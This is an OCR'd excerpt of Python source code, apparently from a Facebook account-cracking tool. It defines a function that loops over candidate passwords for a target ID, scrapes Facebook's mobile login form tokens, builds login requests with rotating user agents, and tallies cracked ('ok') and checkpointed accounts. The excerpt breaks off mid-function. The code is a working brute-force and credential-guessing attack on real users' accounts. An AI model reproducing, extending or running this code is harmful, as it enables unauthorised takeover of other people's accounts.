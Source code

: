 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#----------------------[ METHODE-MTOUCH+MOBILE-4 ]-----------------#
def crackmbasic(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\rAlok {P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			link = ses.get('https://m.facebook.com/login.php?skip_api_login=1&api_key=793139305026776&kid_directed_site=0&app_id=793139305026776&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv13.0%2Fdialog%2Foauth%3Fresponse_type%3Dcode%26client_id%3D793139305026776%26redirect_uri%3Dhttps%253A%252F%252Fmuyu2019.com%252Fwp-login.php%253FloginSocial%253Dfacebook%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%26scope%3Dpublic_profile%252Cemail%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db0a1bc78-04e0-4998-b19b-3a18e7643195%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fmuyu2019.com%2Fwp-login.php%3FloginSocial%3Dfacebook%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			data = {
'lsd': re.search('name="lsd" value="(.*?)"',str(link.text)).group(1),
'jazoest': re.search('name="jazoest" value="(.*?)"',str(link.text)).group(1),
'm_ts': re.search('name="m_ts" value="(.*?)"',str(link.text)).group(1),
'li': re.search('name="li" value="(.*?)"',str(link.text)).group(1),
'try_number': 0,
'unrecognized_tries': 0,
'email':idf,
'pass':pw,
'login':'Masuk',
'prefill_contact_point': '',
'prefill_source': '',
'prefill_type': '',
'first_prefill_source': '',
'first_prefill_type': '',
'had_cp_prefilled': False,
'had_password_prefilled': False,
'is_smart_lock': False,
'bi_xrwh': 0
}